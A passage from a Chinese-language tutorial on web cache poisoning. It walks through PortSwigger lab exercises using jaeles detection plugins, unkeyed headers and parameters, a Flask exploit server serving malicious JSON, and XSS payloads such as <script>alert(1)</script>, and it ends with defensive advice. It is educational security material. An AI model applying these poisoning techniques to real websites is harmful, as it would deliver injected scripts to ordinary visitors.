      x-originating-ip
      uri
      x-authentication
      x-authentication-key
      x-authorization
      x-auth-token
      proxy-http
      proxy-socks4
      proxy-socks5
      redirect
      method
      x-forwarded-server
      Origin

payloads:
    - '{{.head}}'

requests:
  - generators:
      - Header("headereflect{{.ran}}", "{{.payload}}")
    detections:
      - >-
        StringSearch("response", "headereflect")
```

检测到x-host参数后当然可以直接投毒，但是这里这个案例可以通过User-Agent实现定向投毒的，在返回包


我们可以看到一个字段 "Vary: User-Agent"。Vary就是用来表明额外将谁加入cache key的。这里的意思是User-Agent也会加入到cache key 中，如果我们指定一个比较通用的User-Agent就会给很多用户投毒，如果指定某个特定用户的User-Agent我们就可以针对性的投毒。

本题中，我们可以在留言处插入一段如下脚步，让别人访问自己的网站，从而拿到他人的User-Agent，从而实现定向攻击。


### 3.7 DOM投毒

用前面编写的插件直接对靶机发起漏洞探测。很块就发现了一个X-Forwarded-Host回显的问题。


之前写的两个插件都检测到了，guess-headers是爆破header字段的，里面也有X-Forwarded-Host，当然也能检测到。我们看一下数据包，明显有X-Forwarded-Host回显问题。但这只是个潜在问题，并不能说明有安全问题。


放入BurpSuite 进行手工测试。为了不影响其他用户，设置一个不存在的资源(`/?test=1`)进行投毒。重复发包，直到`X-Cache: hit`命中缓存。（如果响应包有Set-Cookie不能真的存入缓存中，找一个有cookie的请求来测试）


复制url地址，在浏览器中访问，投毒成功。


这次靶场与前面不同的是可控值存入到了json中。没办法直接插入xss paylod。我们需要找到其他利用点。

目前我们已知一个可控点，下一步，我们看一下此可控点是否被引用。

在返回包里搜索data，可以发现`initGeoLocate()`是有引用的，这也许就是突破点。


我们不妨把完整的url给它拼接出来https://ac711f051e66707780530770007a000c.web-security-academy.net/resources/json/geolocate.json，访问后发现如下json数据。


我们回到浏览器研究一下这个函数`initGeoLocate()`函数。

```javascript
function initGeoLocate(jsonUrl)
{
    fetch(jsonUrl)
        .then(r => r.json())
        .then(j => {
            let geoLocateContent = document.getElementById('shipping-info');

            let img = document.createElement("img");
            img.setAttribute("src", "/resources/images/localShipping.svg");
            geoLocateContent.appendChild(img)

            let div = document.createElement("div");
            div.innerHTML = 'Free shipping to ' + j.country;
            geoLocateContent.appendChild(div)
        });
}
```

该函数拿到上图所示json数据。然后`div.innerHTML = 'Free shipping to ' + j.country;`中将country的值输出到DOM节点`shipping-info`中。

从如上分析，我们可控的`X-Forwarded-Host`的值被传递到data中，然后又被作为参数传递到`initGeoLocate()`中。并且`initGeoLocate()`从我们可控的url中取出参数输出到DOM节点中。

由此，我们可以构造恶意的json数据，并且将恶意数据的url存到缓存中，这样，只有有人访问该页面，就会加载恶意的json数据并且执行

**攻击步骤：**

1. 在可控的服务器上构造一个xss payload。下图是靶场提供的利用服务器。注意使用`Access-Control-Allow-Origin: *`来避免跨域问题。

   ```
   /resources/json/geolocate.json
   Access-Control-Allow-Origin: *
   
   {
   "country": ""
   }
   ```

   


只要访问该资源就被攻击。


在自己的vps上也写了一个exp。但是可能是实验环境的限制，没有加载成功。

```python
from flask import Flask, jsonify

app = Flask(__name__)


@app.route('/resources/json/geolocate.json')
def root():
    t = {
        'country': ''
    }
    return jsonify(t), 200, [("Access-Control-Allow-Origin", "*")]

if __name__ == '__main__':
    app.debug = True
    app.run(host='0.0.0.0',port=4445)
```


### 3.8 畸形请求导致投毒

本实验是通过不规范的HTTP请求导致的投毒攻击，首先查看主页，其中callback函数是需要注意的问题，


单独访问`js/geolocate.js?callback=setCountryCookie`，修改callback的值，返回内容也会改变。但是callback的值是cache key。没有办法利用。


返回内容如下，

```
const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
setCountryCookie({"country":"United Kingdom"});
```


```<script type="text/javascript" src="/js/geolocate.js?callback=setCountryCookie"></script>```

会拿回: ```setCountryCookie({"country":"United Kingdom"});```

最终成为:

```<script type="text/javascript">setCountryCookie({"country":"United Kingdom"});</script>```


但是如果不放弃，深入测试就会发现。虽然在get请求是cache key，但是在post里添加相同的参数却是unkeyed。构造payload: `callback=alert(1)`，重复请求直到命中缓存。


### 3.9 通过url参数投毒

本实验中url参数是unkeyed。编写一个get请求的插件，随意添加几个参数，如果添加的参数值回显在响应中，那么就手工测试是否能够进一步利用。

jaeles插件代码如下

```yaml
id: simple-add-getquery-reflect
level: 1
info:
  name: simple 
  risk: low


params:
  - root: '{{.BaseURL}}'

variables:
  - vars: |
      test
      utm%5fcontent
      redirect
      url

  - check: |
      saddgetqueryreflect

requests:
  - method: GET
    redirect: false
    headers: 
      - User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:85.0) Gecko/20100101 Firefox/85.0
    url: >-
      {{.root}}/?{{.vars}}={{.check}}
    
    detections:
      - >-
        StringSearch("response", "saddgetqueryreflect")
```

插件逻辑很简单，就是在URL后面跟几个参数，看看参数的值是否会出现在response中。


通过插件确实能检测到，现在我们手工验证一下，确实有回显。


接下来将unkeyed参数注入到缓存，然后去掉unkeyed参数，检测是否还能收到带有unkey参数的响应。


去掉之后任然收到了带有unkey参数的响应，那么接下来就是如何来恶意利用。

首先还是来进行xss payload注入。


访问会自动加上xss payload


### 3.10 利用缓存绕过编码限制(**URL normalization**)

用一个检查路径回显的插件检测到了路径回显问题，插件如下

```yaml
id: path-reflect
info:
  name: path reflect
  risk: info

variables:
  - ran: RandomString(6)

params:
  - root: '{{.BaseURL}}'
  

requests:
  - method: GET
    url: >-
      {{.root}}/{{.ran}}
    headers:
      - User-Agent: 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55'
    detections:
      - >-
        StringSearch("response", "{{.ran}}")

```

手工探测也发现了该问题，

 

既然有回显，肯定试一下XSS攻击。插入payload:

```
<script>alert(1)</script>
```

发现返回结果是编码后的结果。多次请求，命中缓存还是编码后的结果。由于发送请求时候浏览器会自动加一层URL编码

是没办法直接进行XSS攻击的。

 

转换一下思路，存在缓存，那如果我们把为未编码的payload插入缓存，那么我们请求缓存未编码的payload。就能触发payload。

1. 通过BurpSuite将未编码的 payload注入缓存。

   

2 . 再在浏览器中请求地址，成功触发payload。


### 3.11 内部缓存中毒

打开实验环境，通过拦截数据包，发现似乎没有缓存。


通过之前编写的插件检测，发现参数污染 x-forwarded-host头等回显问题。


本例中我们显然要找到缓存的地方才行。通过添加x-forwarded-host头。X-Forwarded-Host: your-exploit-server

在自己的服务器上观察收到的请求，发现有三处请求，并且响应包中也有三处回显，其中geolocate.js的请求在我们删除X-Forwarded-Host头后还是会请求，说明这种是缓存在内部，我们通过在自己的服务器上构造利用payload，就可以利用该漏洞。


## 4. 防御

- 终极方案就是关闭缓存，但对很多网站来说并不现实，实际可能需要变通。比如你使用缓存仅仅是因为CDN默认就是开着的，这时候可以考虑是否真的需要这个功能。

- 就算是真的需要使用缓存，也要限制在静态资源上，在后端服务器做好检测，避免将恶意内容返回给缓存。

- 如果使用外部供应商的缓存，不仅要修改默认配置，还要查看CDN支持那些请求头，因为很多web缓存投毒攻击都是出现在一些不常用的请求头上。

在使用缓存时，你应该采用如下的一些防御方案

- 如果出于性能考虑不使用某些缓存键，就重写请求，不要直接配置，这样很容易导致unkeyed。
- 不要接受畸形HTTP请求，使用的某些外部供应商的技术可能默认支持各种不规范的HTTP请求。
- 不要忽视客户端漏洞，因为客户端漏洞结合缓存会变成威力巨大的漏洞。


## 5. 参考

-  black hat议题白皮书：https://i.blackhat.com/USA-20/Wednesday/us-20-Kettle-Web-Cache-Entanglement-Novel-Pathways-To-Poisoning-wp.pdf
-  black hat议题ppt:https://i.blackhat.com/USA-20/Wednesday/us-20-Kettle-Web-Cache-Entanglement-Novel-Pathways-To-Poisoning.pdf
-  https://portswigger.net/research/practical-web-cache-poisoning
-  https://ph4ntonn.github.io/Web-Cache-Poisoning.html
-  https://medium.com/@m01e/web%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92-%E6%9C%AA%E5%AE%8C%E6%88%90%E7%89%88-4e5a1cfd2c58
-  https://www.4hou.com/posts/RwoL
-  https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Caching_FAQ
-  https://segmentfault.com/a/1190000009638800
-  https://segmentfault.com/a/1190000021060741
-  https://portswigger.net/research/responsible-denial-of-service-with-web-cache-poisoning
-  https://cpdos.org/


